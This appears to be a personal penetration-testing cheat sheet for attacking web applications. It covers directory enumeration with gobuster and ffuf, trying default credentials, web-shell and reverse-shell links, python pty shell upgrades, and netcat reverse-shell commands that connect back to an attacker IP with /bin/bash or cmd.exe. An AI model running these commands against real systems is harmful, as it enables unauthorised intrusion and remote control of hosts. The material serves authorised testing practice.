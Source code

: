 DIRECTORIES ENUMERATION
 
    Gobuster
       • gobuster -e -u http://<target.com>/ -w /usr/share/wordlists/dirb/common.txt
       
    Dirbuster
    
    ffuf
       • ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<target.com>/FFUF
       
    Robots
      • http://<target.com>/robots.txt
    
    
    ////If login page is found, always try with default credentails first, and try to bypass second.



-------------------------------------------------------------------------------------------------------------------------------------



EXPLOITATION WITH HTML/PHP FILES FROM LOCAL MACHINE

  Running exploit HTML/PHP files
       • save exploit HTML/PHP files to /var/www/html
       • start apache2 server
       • run in browser localhost




-------------------------------------------------------------------------------------------------------------------------------------



USEFUL SHELL FOR WEB PAGE EXPLOITATION

  Command line Shells
  
       • https://github.com/flozz/p0wny-shell 
   
   
  Reverse Shells
  
       • http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
       • https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php



 ////If initial shell is occured, always try to spawn full shell (e.g, try python shell spawn, [in Windows] try to download nc.exe to server and connect back)
 
 
 Python Shell Spwan
 
       • python -c 'import pty;pty.spawn("/bin/sh")'
       
       • python3 -c 'import pty;pty.spawn("/bin/sh")'
    
    
 Netcat Connect Back
 
       • nc.exe 192.168.100.113 4444 –e cmd.exe   ////on Windows machines
       
       • nc 192.168.100.113 4444 –e /bin/bash     ////on Linux machines
       
       
       
 -------------------------------------------------------------------------------------------------------------------------------------
      
       
 
 
